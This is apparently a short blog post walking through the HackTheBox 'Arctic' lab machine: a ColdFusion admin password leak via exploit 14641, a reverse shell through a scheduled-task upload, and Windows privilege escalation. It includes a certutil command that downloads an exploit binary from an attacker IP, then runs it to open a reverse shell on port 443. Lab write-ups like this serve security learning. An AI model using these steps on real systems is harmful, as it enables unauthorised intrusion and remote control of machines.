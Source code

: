 ```yaml
---
layout: post
title:  "HackTheBox - Arctic"
categories: htb
permalink: /:categories/artic/
---
```


Arctic was an easy one that i wont forget due to how certain exploits are used.

# Recon
Port scanning shows port 5800 is open serving coldfusion
Some directory bruteforcing returns CFIDE which will be our admin endpoint.

# Pwning the webapp

Searching exploit-db, we find a suitable exploit that may assist in getting into the coldfusion admin panel. Exploit 14641 does some amazing things, it will retrieve the password hash of the admin/user of the panel and inject it into the html of the login form!
From this we get the password of 'happyday'. From there, gaining a reverse shell through coldfusion is fairly stock standard. Setup a scheduled task with an upload and output file with a web directory then upload a shell. Run the task and navigate to the saved directory with a listener to gain a shell as arctic\tolis

# Gaining root

Running 'systeminfo' on the box shows us theres no hotfixes installed and its not a brand new os. This particular box shows signs of being vulnerable to <???>. Download the Chimchurri exploit from github. Use a method of file transfer on windows like the following to recieve the file.
```
<run webserver to host file>
certutil -urlcache -split -f http://10.10.14.4/chimchurri.exe churr.exe
<execute exploit when new listener is running>
churr.exe 10.10.14.4 443
```
Thats it ! quick and easy root for arctic. 14641 is still one of the simplest and most effective exploits ive seen.

